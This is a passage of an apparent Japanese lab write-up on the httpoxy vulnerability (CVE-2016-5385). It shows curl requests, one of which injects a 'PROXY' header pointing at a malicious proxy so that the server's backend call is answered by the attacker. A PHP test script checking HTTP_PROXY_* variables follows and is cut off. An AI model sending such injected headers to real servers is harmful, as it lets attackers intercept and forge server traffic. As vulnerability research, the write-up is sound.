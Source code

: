 まずは正常なリクエストを見てみます。

```bash
$ curl http://scapegoat.test/test.php
<html>
<head>
<title>title httpoxy proof of concept</title>
<body>
HTTP_PROXY variable is false
OK.php return response is OK</body>
</html>
```

ok.phpにより**OK**という文字列が表示されています。 次に攻撃者によって悪意あるproxyサーバに強制的に接続され、そのサーバから返答を受け取った例を見てみます。

```bash
$ curl -H 'PROXY: 192.168.10.103:4000' http://scapegoat.test/test.php
<html>
<head>
<title>title httpoxy proof of concept</title>
<body>
HTTP_PROXY variable is 192.168.10.103:4000
OK.php return response is Evil</body>
</html>
```

**OK**と表示されていた箇所に**Evil**と表示されています。この時、答えを返しているのは悪意あるproxyであり、ok.phpにはリクエストが飛ぶことはありません。

# HTTP_PROXY_*変数

[akamai](https://blogs.akamai.com/2016/07/akamai-mitigates-httpoxy-vulnerability.html)ではHTTP_PROXY変数の他の以下の変数が潜在的な影響を受けたと報告しています。

 * HTTP_PROXY_PASS
 * HTTP_PROXY_USER
 * HTTP_PROXY_HOST
 * HTTP_PROXY_PORT

CVE-2016-5385についての検証で利用した検証環境を用いて上記変数への影響があるのかを検証します。


```php
<html>
<head>
<title>title httpoxy proof of concept</title>
<body>
<?php

// HTTP_PROXY
if (getenv('HTTP_PROXY') == false) {
    echo "HTTP_PROXY variable is false";
}else{
    echo "HTTP_PROXY variable is ".getenv('HTTP_PROXY');
}

echo "\n";

// HTTP_PROXY_USER
if (getenv('HTTP_PROXY_USER') == false) {
    echo "HTTP_PROXY_USER variable is false";
}else{
    echo "HTTP_PROXY_USER variable is ".getenv('HTTP_PROXY_USER');
}

echo "\n";
// HTTP_PROXY_PASS
if (getenv('HTTP_PROXY_PASS') == false) {
```